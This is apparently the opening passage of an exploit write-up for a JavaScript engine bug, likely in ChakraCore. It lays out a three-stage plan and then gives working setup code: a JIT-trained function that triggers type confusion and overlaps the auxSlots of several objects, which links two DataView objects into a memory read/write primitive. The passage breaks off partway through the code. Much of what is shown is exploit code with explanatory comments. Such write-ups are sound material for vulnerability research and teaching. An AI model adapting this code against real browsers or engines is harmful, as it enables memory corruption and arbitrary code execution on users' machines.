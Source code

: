 # Exploit

I'll divide the exploit in three parts (Setup, Arbitrary address read and write, Code Execution) and explain a bit what each stage does

## Setup

We first setup the four objects that we need `o`, `obj`, `dv1`, `dv2`. I'll use Perception Point terminology because they included a PoC exploit which can be adapted to this bug

You can diff the two scripts to get the differences

```javascript
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

dv1 = new DataView(new ArrayBuffer(0x100));
dv2 = new DataView(new ArrayBuffer(0x100));

BASE = 0x100000000;

function hex(x) {
    return "0x" + x.toString(16);
}

function opt(o, c, value) {
    o.b = 1;

    let temp = {__proto__: c};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};
  
    opt(o, o, obj); // o->auxSlots = obj (Step 1)

    /* 
      chqmatteo: so we set o.c but it can be any name you want, 
      it's just the third property of o
      so it will get written to o->auxSlots[2]
      similary obj.h is the 8th property of obj so we will write to obj->auxSlots[7]
      and buffer is at that offset
     */
    o.c = dv1; // obj->auxSlots = dv1 (Step 2)
    obj.h = dv2; // dv1->buffer = dv2 (Step 3)
    
```
